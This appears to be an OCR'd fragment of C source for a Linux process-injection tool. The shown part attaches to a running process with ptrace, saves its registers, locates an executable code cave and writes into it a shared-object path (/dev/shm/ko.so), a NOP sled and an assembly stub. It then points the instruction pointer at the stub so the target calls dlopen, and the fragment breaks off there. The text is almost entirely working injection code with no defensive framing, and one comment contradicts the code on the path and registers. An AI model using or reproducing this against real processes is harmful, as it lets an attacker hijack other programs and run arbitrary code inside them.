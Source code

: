 ```c
    asm(
        "mov $2, %esi\n"
        "call *%rax\n"
        "int $0x03\n"
    );
}
// Attach using ptrace
void infector(pid_t pid) {
    int p_check, waitpidstatus;
    struct user_regs_struct oldregs, regs;
    unsigned long long code_cave_address;
    unsigned char *oldcode; 
    
    p_check = ptrace(PTRACE_ATTACH, pid, NULL, NULL);
    if (p_check < 0) {
        fprintf(stderr, "[-] Error: ptrace could not attach to given pid\n");
        exit(-1);
    }
    if (waitpid(pid, &waitpidstatus, WUNTRACED) != pid) {
        fprintf(stderr, "[-] Error: waitpid() failed!\n");
        exit(-1);
    }
    fprintf(stderr, "[+] Attached to process %d successfully!\n", pid);
    // Get a copy of registers
    p_check = ptrace(PTRACE_GETREGS, pid, NULL, &oldregs);
    if (p_check < 0) {
        fprintf(stderr, "[-] Error: could not retrieve cpu registers\n");
        exit(-1);
    }

    memcpy(&regs, &oldregs, sizeof(struct user_regs_struct));
    fprintf(stderr, "[+] CPU registers backup done!\n");
    
    // Find a memory region with executable perms
    code_cave_address = freespaceaddr(pid) + sizeof(unsigned long long);
    if (!code_cave_address) {
        fprintf(stderr, "[-] Error: executable region not found!\n");
        exit(-1);
    }
    
    fprintf(stderr, "[+] Possible region for a code cave located at 0x%llx\n", code_cave_address);
    
    // Backup whatever there is at that region    
    oldcode = (unsigned char*) malloc(CAVE_SIZE);
    ptraceRead(pid, code_cave_address, oldcode, CAVE_SIZE);
    fprintf(stderr, "[+] Original code backup done!\n");

    // Now is time to overwrite the code cave with our code   
    ptraceWrite(pid, code_cave_address, "/dev/shm/ko.so\x00", 16); // Shared Object location
    ptraceWrite(pid, code_cave_address + 16, "\x90\x90\x90\x90\x90\x90\x90\x90", 8);
    ptraceWrite(pid, code_cave_address + 16 + 8, (&injectme) + 4, 32);

    fprintf(stderr, "[+] Stub code injected!\n");

    // Change program counter to our inserted code
    regs.rip = code_cave_address + 16 + 8;
    
    // Now we need to follow the call convention so:
    // - RAX => must be the address of remote dlopen()
    // - RSI => address where "/tmp/inject.so" string lies (first dlopen parameter)
    // - RDI => RTLD_LAZY value -2- (second dlopen parameter)
    regs.rax = dlopen_addr(pid);
    regs.rdi = code_cave_address;
```